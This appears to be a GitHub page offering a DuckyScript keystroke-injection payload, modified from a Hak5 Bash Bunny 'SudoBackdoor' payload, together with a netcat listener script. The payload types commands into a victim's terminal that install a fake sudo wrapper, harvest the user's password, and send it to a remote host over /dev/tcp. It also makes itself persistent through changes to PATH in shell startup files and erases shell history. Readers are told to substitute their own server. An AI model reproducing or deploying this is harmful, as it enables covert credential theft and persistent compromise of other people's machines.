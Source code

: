 Payload originally designed by oXis for Bash Bunny.

Bash Bunny Payload page: https://github.com/hak5/bashbunny-payloads/tree/master/payloads/library/credentials/SudoBackdoor

Change example.com to your own domain or listening IP address and 1337 to your own port of choice.

```
REM Modified by 5h@d0w
DELAY 2000
GUI space
DELAY 500
ALT F2
DELAY 500
BACKSPACE
DELAY 100
STRING terminal
ENTER
DELAY 3000
STRING rm -rf ~/.config/sudo
ENTER
DELAY 100
STRING mkdir -p ~/.config/sudo
ENTER
DELAY 100
STRING echo '#!'$SHELL > ~/.config/sudo/sudo
ENTER
STRING /usr/bin/sudo -n true 2>/dev/null
ENTER
STRING if [ $? -eq 0 ]
ENTER
STRING then
ENTER
STRING /usr/bin/sudo $@
ENTER
STRING else
ENTER
STRING echo -n "[sudo] password for $USER: "
ENTER
STRING read -s pwd
ENTER
STRING echo
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null
ENTER
STRING if [ $? -eq 1 ]
ENTER
STRING then
ENTER
STRING echo "$USER:$pwd:invalid" > /dev/tcp/example.com/1337
ENTER
STRING echo "Sorry, try again."
ENTER
STRING sudo $@
ENTER
STRING else
ENTER
STRING echo "$USER:$pwd:valid" > /dev/tcp/example.com/1337
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S $@
ENTER
STRING fi
ENTER
STRING fi' > ~/.config/sudo/sudo
ENTER
DELAY 100
STRING chmod u+x ~/.config/sudo/sudo
ENTER
DELAY 100
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bash_profile
ENTER
DELAY 100
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bashrc
ENTER
DELAY 100
STRING history -c && rm .bash_history && exit
ENTER
DELAY 400
GUI q
```

Use this bash script to listen on your server:

```
#!/bin/bash
while [ true ]
do
netcat -vv -lp 1337 >> passwd.txt
done
```